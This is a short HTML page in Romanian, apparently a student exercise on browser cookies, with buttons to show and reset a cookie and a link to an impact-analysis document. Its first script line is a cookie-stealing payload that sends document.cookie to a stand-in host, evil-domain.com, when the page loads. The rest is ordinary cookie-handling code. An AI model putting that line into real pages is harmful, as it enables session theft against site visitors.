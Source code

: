 <script> 
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=henrietta"; 
document.cookie = "browser_version=navigator.appVersion";  

const cookieValue = document.cookie .split('; ') .find(row => row.startsWith('test2=')) .split('=')[1]; 

function doOnce() { if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) { alert(document.cookie); 
document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT"; } } 
function resetOnce() { document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT"; } //ES5 
if (document.cookie.split(';').some(function(item) { return item.indexOf('reader=1') >= 0 })) { console.log('The cookie "reader" has "1" for value') } //ES2016 
if (document.cookie.split(';').some((item) => item.includes('reader=1'))) { console.log('The cookie "reader" has "1" for value') } </script> 
<body>
  Bun venit pe pagina cu prajituri!<br>
  <button onclick="doOnce()">Vezi cookies</button><br>
  <button onclick="resetOnce()">Reseteaza buton cu cookie</button><br>
  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/szilagyi_he_henri_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B02175963-161C-4C61-9E55-04E30A59C7D6%7D&file=Analiza%20de%20impact.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1621792338112&ct=1621792338112&wdPreviousSession=0b3ed004-2258-4e6a-bb7d-185826811b79&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD">Acceseaza analiza de impact</a><br>
Szilagyi Henrietta-Andrea
</body>
